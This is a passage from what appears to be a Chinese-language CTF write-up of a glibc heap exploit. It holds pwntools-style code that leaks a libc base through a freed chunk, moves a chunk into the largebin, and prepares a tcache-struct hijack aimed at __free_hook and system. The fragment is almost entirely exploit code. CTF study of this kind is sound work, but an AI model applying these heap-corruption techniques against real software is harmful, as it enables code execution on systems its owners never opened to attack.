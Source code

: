 ```plain
add(1,0x450,"\n")
add(2,0x450,"\n")

free(0)
recover(0)
show(0)

ru("Pwd is: ")
libc_base = (u64(r(8)) ^ key) - (0x7f4eed4e1b80-0x7f4eed2f5000) - 106
leak("base = ",libc_base)
```

将chunk 0放入largebin中

```plain
add(3,0x600,"\n")
```

Tcache Struct劫持的准备：

```plain
mp_ = libc_base + 0x1EC280 
leak("mp_ = ",mp_)

#bins = mp_ + 80
#max = mp_ + 88
tcache_max_bins = mp_+80

free_hook =  libc_base+libc.sym["__free_hook"]
system =  libc_base+libc.sym["system"]
```

[![](assets/1700442753-d61aa81e373e98ba839b24cde1bb547f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117185451-bb831a7c-8537-1.png)

```plain
free(2)
recover(2)
#将chunk 2放入unsorted bin中
```
